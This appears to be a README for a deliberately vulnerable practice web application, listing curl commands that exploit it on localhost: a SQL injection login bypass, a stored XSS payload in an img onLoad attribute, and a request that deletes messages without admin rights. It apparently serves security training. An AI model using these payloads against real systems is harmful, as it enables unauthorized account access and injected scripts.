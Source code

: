 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## Injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-Site Scripting (XSS)

```bash
# Execute a script when the guestbook page is loaded
# Make sure to log in and replace "<token>" with your own token first
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```

## Broken Access Control

```bash
# Delete any message without admin privileges
# Make sure to log in and replace "<token>" with your own token first
curl -X DELETE "http://localhost:8080/api/messages/<messageId>" \
  -H "Authorization: Bearer <token>" \
  -v && echo ""
```
